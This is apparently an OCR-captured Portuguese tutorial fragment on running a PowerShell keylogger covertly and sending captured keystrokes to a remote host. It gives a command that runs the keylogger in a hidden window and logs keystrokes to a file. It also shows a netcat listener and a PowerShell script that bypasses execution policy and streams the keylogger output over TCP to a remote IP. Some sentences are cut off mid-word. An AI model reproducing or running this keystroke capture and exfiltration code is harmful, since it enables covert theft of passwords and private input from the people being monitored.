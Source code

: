 Este script também utiliza um Hook para capturar as teclas pressionadas pelo usuário e imprime as teclas no console. Para executá-lo em background e salvar a saída para um arquivo, basta utilizar a seguinte linha de comando no PowerShell:

powershell -WindowStyle Hidden -File keylogger.ps1 > keylogger.txt

Isso irá executar o script em background e salvar a saída para o arquivo 'key

-------------------------------------------------------------------------------------------------------------

Para enviar a saída do script para um terminal Linux em outro host, você pode usar o programa 'netcat
No host remoto (Linux), execute o seguinte comando para iniciar o servidor de escuta na porta 1234:

nc -l 1234

No host local (Windows), você pode usar o seguinte script em PowerShell para enviar a saída do seu script para o servidor de escuta no host remoto:

------------------------------------------------
# Configurações do servidor de escuta
$serverAddress = "192.168.1.100" # endereço IP do host remoto
$serverPort = 1234

# Executa o script e redireciona a saída para o servidor de escuta
$keyloggerOutput = powershell.exe -ExecutionPolicy Bypass -Command "C:\caminho\para\seu\keylogger.ps1" | Out-String
$nc = New-Object System.Net.Sockets.TCPClient($serverAddress, $serverPort)
$ncStream = $nc.GetStream()
$ncWriter = New-Object System.IO.StreamWriter($ncStream)
$ncWriter.Write($keyloggerOutput)
$ncWriter.Flush()
$nc.Close()
------------------------------------------------

Substitua "192.168.1.100" pelo endereço IP do host remoto e "C:\caminho\para\seu\keylogger.ps1" pelo caminho completo para o seu script.

Este script executará seu script e redirecionará a saída para o servidor de escuta no host remoto.
